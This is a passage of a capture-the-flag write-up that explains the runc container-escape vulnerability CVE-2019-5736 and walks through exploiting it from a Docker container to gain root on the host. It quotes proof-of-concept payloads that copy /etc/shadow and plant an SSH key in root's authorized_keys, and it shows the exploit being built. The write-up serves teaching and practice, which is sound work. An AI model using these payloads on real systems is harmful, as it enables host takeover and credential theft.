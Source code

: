 ```

noah@thenotebook:~$ docker -v
Docker version 18.06.0-ce, build 0ffa825

```

### CVE-2019-5736

#### Theory

There’s a vulnerability in the version of `runc` used by Docker before 18.09.2 ([CVE-2019-5736](https://nvd.nist.gov/vuln/detail/CVE-2019-5736)) which allows at attacker to overwrite the host `runc` binary from access as root inside a container, and thus gives host root access. [This post from Unit42](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/) does a really good job of breaking it down in detail.

The idea is that from within the container, I’ll overwrite `/bin/sh` with `#!/proc/self/exe`, which is a symbolic link to the binary that started the container process. Next, I’ll write to the `runc` binary (which is shared on the host), and have it point to the payload.

Now, when someone tries to initiate a container (ie, runs `docker exec` from the host), the payload will execute on the host as root.

#### Practice

There are tons of POCs out there, but I really like [this one](https://github.com/Frichetten/CVE-2019-5736-PoC). It’s a simple Go script, which I’ll save on my system. At line 15-16, there’s the payload that will be executed:

```

// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"

```

I’ll change that to write my SSH key to `/root/.ssh/authorized_keys`:

```

var payload = "#!/bin/bash \n mkdir -p /root/.ssh && echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' > /root/.ssh/authorized_keys" 

```

I’ll build the ELF with `go build cve-2019-5673.go`, and now there’s an executable:

```

oxdf@parrot$ file cve-2019-5673
cve-2019-5673: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=mhd4P3-cWrPAeCPFcvJR/6R7blmjNRY_26eSCPvqf/Q8QS3RaPp3UjsdNjgEha/h2Fafwkir7K48YtCpYjM, not stripped

```

I’ll want two shells on TheNotebook as noah, which is easy with SSH. In the first, I’ll drop into the container and upload the binary:
